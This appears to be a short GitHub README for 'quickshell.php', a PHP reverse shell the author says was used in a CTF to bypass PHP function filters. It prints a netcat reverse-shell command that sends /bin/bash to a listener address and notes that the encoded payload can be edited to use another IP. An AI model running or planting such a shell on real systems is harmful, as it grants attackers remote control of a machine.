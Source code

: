 # quickshell.php
Quick and dirty php reverse shell using nc

This isn't recreating the wheel here or breaking new ground, but worked for 
me to bypass some php restrictions and function filters on a recent ctf I had
done.

You'll need to decode and re-encode to add your own local IP address, as this will run the following:

  nc -nv 192.168.1.101 1234 -e /bin/bash
  
This is merely an example file for reference.

